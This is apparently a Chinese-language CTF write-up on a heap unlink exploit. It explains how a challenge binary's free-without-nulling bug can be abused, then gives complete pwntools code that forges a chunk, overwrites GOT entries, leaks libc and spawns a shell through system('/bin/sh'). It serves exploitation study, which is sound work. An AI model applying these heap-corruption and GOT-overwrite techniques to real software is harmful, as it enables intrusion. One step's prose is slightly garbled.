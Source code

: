 ```yaml
---
title: heap unlink
date: 2018-08-06
tags: pwn
---
```

[bin](https://github.com/void0red/code/blob/master/task/2018_07_30/first)地址

## 0x00问题所在

1. free后的堆指针没用置空
2. free没有对flag进行判断是否已经free过了

## 0x01unlink

- 发生在free一个chunk，发现相邻的chunk处于free状态，从bin双链表取出来的时候，合并至少两个free chunk。前一个chunk的状态通过`p->presize`的最低位来判断，后一个chunk的状态通过`(p+p->size+(p+size)->size)->presize`的最低位来判断。
<!-- more -->
- unlink的检查：

  - `p->fd->bk == p && p->bk->fd == p` 

    绕过：寻找`*ptr == p`

  - `((p+p->size)->presize)&0x1 == 0 && ((p+p->size)->preseize) == p->size`

    绕过：覆盖nextchunk的presize

- unlink

  ```c
  //定义:
  FD = p->fd;
  BK = p->bk;
  FD->bk = BK;
  BK->fd = FD;
  //方法：
  p->fd = ptr-0x8*3;
  p->bk = ptr-0x8*2;
  //效果：
  *ptr = p->fd;
  //*ptr = ptr-0x8*3
  ```

## 0x02分析

- 堆指针依次保存在`0x6020e0` 中，记为`list`

  ```c
  unsigned long int list;
  list[i*2] = chunkp;
  list[i*2+1] = flag;
  ```


- 利用`unlink`篡改堆指针，因为构造一次`unlink`只能修改`ptr`处的值，而且`ptr`必需保存`unlink`对象堆的指针，所以尽量把他修改为保存堆指针`list`中的某处地址，然后伪造list中的数据，再利用edit，修改list中伪造地址的数据

- 构造`unlink`的`fd, bk`，要使`ptr-0x8*3`落在`list`地址的范围，同时`ptr`还要保存`unlink`对象堆地址，也就是list[i*2]，取`ptr == list+0x18+0x8 == list[4]`，即`unlink(chunk2)`，配合`unlink`还需要一个相邻的堆，所以考虑先获得两个堆的指针。

## 0x03利用


- 首先申请两个0x100的堆再释放，目的是保存两个堆的指针，接着申请0x100*2+0x10(chunk header size)的堆，这个堆应该填充在先前释放的两个堆的位置。

  ![](/images/unlink0.png)

- 然后free后面一个实际上不存在，但是有个残留指针的堆，触发前一个堆的`unlink`， 导致`*ptr == list[4]`修改为`ptr-0x8*3 == list+0x18+0x8-0x8*3 == list[1]`即chunk1的flag处。

- 利用edit(chunk2)修改`list`的数据，从chunk1的flag处开始，修改`list[2] = free@got; list[4] = read@got`

- 利用edit(chunk1)修改`free`函数地址为`puts`函数地址，然后free(chunk2)就会打印`read`函数的地址

- 利用动态链接库计算`system`函数的地址，并用edit(chunk1)修改`free(puts)`函数地址为`puts`函数地址

- 任意申请一个堆存入`/bin/sh\x00`，调用free即触发`system`

##  0x04code

```python
# use to save two pointers in list, not fastbin
create(2, 0x100, 'a')
create(1, 0x100, 'a')

delete(2)
delete(1)

list_addr = 0x6020e0

# p_addr also set to list[4](save index2's pointer)
p_addr = list_addr + 0x18 + 0x8
# size = 0x100+0x100+0x10(chunk1 header)
# fake data(low addr --> high addr): chunk0p->(presize, size&inuse, fd, bk, data), chunk1p->(presize, size&inuse)
# keep: [1]p->fd->bk == p->bk->fd == p, [2]p->size == (p+size)->presize
create(2, 0x210, p64(0)+p64(0x101)+p64(p_addr-0x18)+p64(p_addr-0x10)+'a'*(0x100-0x20)+p64(0x100)+p64(0x210-0x100))

# when free chunk1, inuse bit is `0`, than unlink chunk0, p->fd->bk = p->bk, p->bk->fd = p->fd
# *p_addr = p->fd = p_addr-0x18 = list_addr+0x8
delete(1)

# fake data: index0_flag, index1p, index1_flag, index2p, index2_flag
edit(2, p64(0)+p64(elf.got['free'])+p64(1)+p64(elf.got['read'])+p64(1))


# change free to puts
edit(1, p64(elf.symbols['puts']))

# puts(&list[4]) == puts(free@got)
delete(2)

read_addr = u64(p.recv(6) + '\x00'*2)
system_addr = libc.symbols['system'] - libc.symbols['read'] + read_addr

# change puts to system
edit(1, p64(system_addr))

create(3, 0x20, '/bin/sh')

# system('/bin/sh')
delete(3)
p.interactive()
```

